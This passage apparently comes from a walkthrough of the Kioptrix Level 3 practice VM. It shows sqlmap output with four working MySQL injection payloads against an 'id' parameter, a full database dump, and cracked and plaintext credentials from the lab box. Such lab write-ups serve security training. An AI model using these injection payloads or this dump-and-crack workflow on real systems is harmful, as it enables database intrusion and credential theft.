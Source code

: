 ```bash
sqlmap identified the following injection point(s) with a total of 49 HTTP(s) requests:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: Boolean-based blind - Parameter replace (original value)
    Payload: id=(SELECT (CASE WHEN (7374=7374) THEN 1 ELSE (SELECT 8244 UNION SELECT 4159) END))&sort=photoid

    Type: error-based
    Title: MySQL >= 4.1 OR error-based - WHERE or HAVING clause (FLOOR)
    Payload: id=1 OR ROW(2109,2434)>(SELECT COUNT(*),CONCAT(0x7170717871,(SELECT (ELT(2109=2109,1))),0x717a6b7171,FLOOR(RAND(0)*2))x FROM (SELECT 2212 UNION SELECT 5634 UNION SELECT 1480 UNION SELECT 9609)a GROUP BY x)&sort=photoid

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1 AND (SELECT 5080 FROM (SELECT(SLEEP(5)))QsQi)&sort=photoid

    Type: UNION query
    Title: Generic UNION query (NULL) - 6 columns
    Payload: id=1 UNION ALL SELECT NULL,CONCAT(0x7170717871,0x664a707568684747494d4764767967637763556c726a6c4a6b4e71574a4668795856417a65585862,0x717a6b7171),NULL,NULL,NULL,NULL-- -&sort=photoid
---
[02:59:57] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 4.1
[02:59:57] [WARNING] HTTP error codes detected during run:
500 (Internal Server Error) - 21 times
[02:59:57] [INFO] fetched data logged to text files under '/home/kali/.sqlmap/output/kioptrix3.com'

[*] ending @ 02:59:57 /2020-10-28/

```
With an injectable parameter, I can then dump out all database information with `--dump-all`. This includes the gallery database.
Among the dumped database tables is a dev_accounts table with two users and hashed passwords.
```bash
kali@kali:~/Desktop/osc/kiol3/gallery$ cat dev_accounts.csv 
id,password,username
1,0d3cfbec887aabd50f243b3f155c0f85,dreg
2,5badcaf789d3d1d09794d8f021f40f0e,loneferret
```
The first user hash doesn't crack, however the second hash cracks to a plaintext password of `starwars`.
Also there is another table called gallarific_users with a single row.
```bash
kali@kali:~/Desktop/osc/kiol3/gallery$ cat gallarific_users.csv 
userid,email,photo,website,joincode,lastname,password,username,usertype,firstname,datejoined,issuperuser
1,<blank>,<blank>,<blank>,<blank>,User,n0t7t1k4,admin,superuser,Super,1302628616,1
```
Together, these tables provide two sets of complete credentials:
- `loneferret:starwars`
- `admin:n0t7t1k4`
  
